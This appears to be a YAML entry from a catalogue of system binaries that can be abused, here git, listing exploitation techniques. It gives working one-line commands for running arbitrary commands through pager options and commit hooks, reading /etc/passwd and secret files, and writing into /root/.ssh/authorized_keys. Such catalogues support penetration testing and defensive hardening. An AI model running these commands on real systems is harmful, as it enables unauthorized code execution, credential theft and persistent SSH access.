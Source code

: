 ```yaml
---
description: Git is an extremely powerful tool with more functionality than one can count. This list is non-exhaustive, but includes examples which have historically been useful for exploitation.
functions:
  command:
    - description: The --open-files-in-pager argument can be used to run arbitrary commands.
      code: |
        git grep --open-files-in-pager='uname -a #' .
        git grep --open-files-in-pager='uname;' .
    - description: This method requires the git config advice.ignoredHook to be false (which it is not by default).
      code: |
        git commit -a -m 'exec /usr/bin/uname -a'
        git log --max-count=1 --pretty=format:"%s"  --output .git/hooks/pre-commit
        git commit --allow-empty -m x
  file-read:
    - description: It is common to use `git diff` to compare a single file to a different version of itself in history. The `--no-index` flag can be used to effectively turn `git diff` into normal `diff` against another file _within the git repository_ (but not necessarily tracked).
      code: |
        git diff --no-index local-secret-file.conf git.md
    - description: If you are reading a file outside of the git directory, you can use `git diff` against `/dev/null`.
      code: |
        git diff /dev/null /etc/passwd
  file-write:
    - description: Outputs the most recent changelog to an arbitrary file. Note that this also contains the commit information.
      code: |
        git log --max-count=1 --output=/root/.ssh/authorized_keys
    - description: Outputs the first line of the most recent commit message to an arbitrary file.
      code: |
        git log --max-count=1 --pretty=format:"%s" --output=/root/.ssh/authorized_keys
---
```

